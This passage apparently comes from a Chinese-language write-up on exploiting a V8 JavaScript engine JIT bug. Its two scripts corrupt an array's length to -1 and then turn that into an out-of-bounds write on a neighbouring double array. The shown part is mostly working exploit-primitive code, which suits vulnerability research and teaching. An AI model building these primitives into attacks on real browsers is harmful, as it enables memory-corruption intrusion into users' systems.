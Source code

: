 ```
function foo(flag) {
let x = -1;
if (flag) x = 0xFFFF_FFFF;
let len = 0 - Math.max(0, x);
 
let vuln_array = new Array(len);
vuln_array.shift();
%DebugPrint(vuln_array);
%SystemBreak();
return vuln_array;
}
 
%PrepareFunctionForOptimization(foo);
console.log("[+] run as builtin: " + "vuln_array.length == " + foo(false).length);
%OptimizeFunctionOnNextCall(foo);
console.log("[+] run as builtin: " + "vuln_array.length == " + foo(true).length);

```

可以看到数组长度被修改成了`-1(0xFFFFFFFE)`：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210727164059.png)  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210727164452.png)  
现在我们已经可以修改点什么东西了，在`vuln_array`后面再放置一个`Double`数组，接着修改他的`length`：

```
function hex(a) {
return a.toString(16);
}
 
function foo(flag) {
let x = -1;
if (flag) x = 0xFFFF_FFFF;
let len = 0 - Math.max(0, x);
 
let vuln_array = new Array(len);
vuln_array.shift();
let oob_array = [1.1, 1.2, 1.3];
//if (flag) %SystemBreak();
return [vuln_array, oob_array];
}
 
function confusion_to_oob() {
console.log("[+] convert confusion to oob......");
// 触发JIT
for (let i=0; i<0xc00c; i++) {foo(false);}   
//
[vuln_array, oob_array] = foo(true);
vuln_array[16] = 0xc00c;
 
console.log("    oob_array.length: " + hex(oob_array.length));
}
 
confusion_to_oob();

```
